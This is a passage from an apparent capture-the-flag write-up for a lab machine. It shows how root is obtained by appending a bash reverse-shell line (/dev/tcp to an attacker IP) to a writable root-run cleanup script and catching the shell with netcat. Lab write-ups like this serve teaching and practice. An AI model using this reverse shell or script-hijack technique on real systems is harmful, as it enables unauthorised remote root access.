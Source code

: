 - Check out the files over there!
- We have a file named `clean.sh`.

```bash
root@7546fa2336d6:/# cd /opt/clean
root@7546fa2336d6:/opt/clean# ls
clean.sh

root@7546fa2336d6:/opt/clean# cat clean.sh 
#!/bin/bash

rm -rf /tmp/*
```

---

## Root flag

- We can modify the clean.sh and include a reverse shell:

```bash
root@7546fa2336d6:/opt/clean# echo "bash -i >& /dev/tcp/10.17.7.91/1234 0>&1" >> clean.sh
root@7546fa2336d6:/opt/clean# cat clean.sh 
#!/bin/bash

rm -rf /tmp/*
bash -i >& /dev/tcp/10.17.7.91/1234 0>&1
```


- On attacker machine, we can get the reverse shell as well as the root flag:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.151.249] 35062
bash: cannot set terminal process group (12666): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# ls
ls
firewall
root.txt

root@cat-pictures:~# cat root.txt
cat root.txt
Congrats!!!
Here is your flag:

<REDACTED>
```

---

## Port Knock - Additional Info
